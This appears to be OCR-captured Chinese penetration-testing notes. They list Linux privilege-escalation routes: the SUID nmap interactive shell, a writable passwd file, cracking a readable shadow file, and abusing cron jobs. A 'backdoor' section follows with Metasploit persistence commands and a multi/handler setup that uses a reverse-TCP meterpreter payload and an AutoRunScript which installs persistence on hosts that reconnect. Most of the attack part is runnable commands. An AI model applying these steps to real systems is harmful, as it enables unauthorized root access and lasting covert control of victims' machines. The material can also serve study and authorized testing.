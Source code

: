 1. SUID是一种属性，他允许用户执行的文件以该文件的拥有者身份运行。3.81的nmap中可以使用交互模式以root执行任意系统命令。

2. 环境变量劫持的方法提权

3. Passwd文件是否可写，可写则修改密码登录

4. Shadow是否可读，可读则使用hashcat或john暴力破解

5. 使用web端的一些密码测试root密码是否相同

6. 使用命令 ls -l /etc/cron* 查看计划任务，也许会有脚本使自己成为root用户


# 后门

## 拿下一个shell容易(大雾)

但是对方服务器重启，web漏洞被补上，木马被删除，还能有办法保留住shell么？

(A:那么请问哪里可以买到呢？)

这里提供了几种持续后门的方法。(A:开始恰饭。)

## Msf的持续后门

## Persistence: 

```
run persistence -h：用于创建启动项启动，会创建注册表，创建文件。（X86_Linux不支持此脚本）
```
```
Run metsvc -h ：用于创建服务，会创建meterpreter服务，并上传三个文件，容易被杀（我的msf版本不支持）使用-r参数可以卸载服务
```
```
Mof_ps_persist
```

## Msf自动运行脚本

`Autorunscript`，一个十分强大的脚本，可以在生成会话的同事，执行指定的操作。可以通过autorunscript调用的脚本有6个，目录metasploit/scripts/meterpreter，有屏幕截图，获取环境变量等等。

### 创建渗透脚本resource_complete

```
use explit/multi/handler
```
```
set payload windows/meterpreter/reverse_tcp
```
```
set LHOST 192.168.175.128
set LPORT 2222
```
```
Set ExitOnSession false
```
```
Set AutoRunScript persistence -r *** -p 7231 -U -X -I 30
exploit -j -z
```
